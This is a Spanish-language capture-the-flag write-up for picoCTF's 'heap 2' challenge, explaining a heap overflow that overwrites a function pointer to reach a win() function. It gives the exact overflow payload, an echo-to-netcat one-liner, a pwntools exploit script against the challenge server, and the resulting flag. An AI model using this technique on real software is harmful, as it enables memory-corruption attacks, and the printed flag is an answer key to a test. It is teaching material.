 # heap 2
![Descripcion del CTF](img/description.png)

## Descripción
Can you handle function pointers?  
Download the binary [here](https://artifacts.picoctf.net/c_mimas/49/chall).  
Download the source [here](https://artifacts.picoctf.net/c_mimas/49/chall.c).  
Additional details will be available after launching your challenge instance.

## Resolución
Analizando el código fuente nos encontramos con lo siguiente:

Tenemos "x" declarada en el heap:

```c
char *x;
char *input_data;
```

Podemos ver sus direcciones con la opción 1:

```c
void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}
```

Podemos escribir información en "input_data", pudiendo hacer un heap overflow y llegar a x:

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```
"x" es interpretada como un puntero de función:

```c
void check_win() { ((void (*)())*(int*)x)(); }
```

Y tenemos la función "win()" inaccesible:

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

Con lo cual, lo que hay que hacer es lo siguiente:
1. Obtener la dirección de memoria de "win()".
2. Realizar un heap obverflow para poner en x la dirección de memoria de la función "win()".
3. Llamar a "check_win()" para que llame a "win()".

Para encontrar la dirección de memoria de la función "win()" usaremos el siguiente comando:

```bash
objdump -D chall | grep "win"
```

![Consola](img/1.png)

Obteniendo '00 00 00 00 00 40 11 a0'. Esta dirección la necesitamos en little endian, debido a que la mayoría de ordenadores de arquitectura x86 lo usan.

El resultado tras cambiar el orden es: 'a0 11 40 00 00 00 00 00'. Ahota tenemos que transformarlo en hexadecimal, para que el ordenador los interprete correctamente:

'\xa0\x11\x40\x00\x00\x00\x00\x00'.

El siguiente paso es calcular el overflow necesario. El programa nos deja imprimir el heap, por lo que no tendremos que probar con fuerza bruta:

![Consola](img/2.png)

Vamos a escribir en 'input_data', que tiene el valor 'pico' y queremos modificar 'x', que tiene el valor 'bico'. Para poder llegar de una a otra restaremos sus direcciones de memoria y calcularemos cuántos caracteres poner por delante de la dirección de la función:

1. Convertimos las direcciones en decimal:
- - 0x7fb6b0 = 5220528
- - 0x7fb6d0 = 5220560
2. Restamos.
- - 5220560 - 5220528 = 32

Con lo cual, tenemos que añadir 32 bytes de información, un carácter es un byte, por lo que añadiremos antes de la dirección de la función 32 'D'.

Creando el siguiente payload: 'DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD\xa0\x11\x40\x00\x00\x00\x00\x00'.

Ahora, para enviarlo no podemos usar la consola, puesto que no lo codifica automáticamnete. Para enviarlo correctamente tenemos dos opciones:

1. Con el comando 'echo':

nc mimas.picoctf.net 53733
```bash
echo -e "2\nDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD\xa0\x11\x40\x00\x00\x00\x00\x00\n4" | nc mimas.picoctf.net 53733
```
- echo: sirve para enviar información al siguiente comando.
- - -n: Evita que 'echo' añada un \n al final.
- - 2\n: Selecciona la opción 2 del menú.
- - 'DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD': Rellena los espacios hasta llegar a la variable 'x'.
- - \x: Indica un carácter hexadecimal.
- - \x00\n: Da al Enter tras haber introducido el payload.

- - 4: Selecciona la opción 4 para imprimir por pantalla la flag (echo añade un \n por defecto al final).
- nc: Nos conectamos a la máquina de pico
- - mimas.picoctf.net: El servidor
- - 53733: El puerto

![Consola](img/3.png)

2. Con un script de python:

```python
from pwn import *

p = remote("mimas.picoctf.net", 53733)

p.sendline(b"2")
p.recvuntil(b"buffer:")
p.sendline(b"DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD\xa0\x11\x40\x00\x00\x00\x00\x00")

p.recvuntil(b"choice:")
p.sendline(b"4")
print(p.recvall())
```

- from pwn import *: Importamos la librería (pip install pwntools)
- p = remote: Nos conectamos al servidor y guardamos la conexión en 'p'.
- p.sendline: Enviamos una línea (con b antes para indicar que se envíen en bytes)
- p.recvuntil: Esperamos a que se reciba la cadena de texto para continuar (con b antes para indicar que se reciben en bytes).
- print: Imprimimos la conversación entre el programa y el servidor.

![Codium](img/4.png)

Obteniendo así la flag: 'picoCTF{and_down_the_road_we_go_dde41590}'.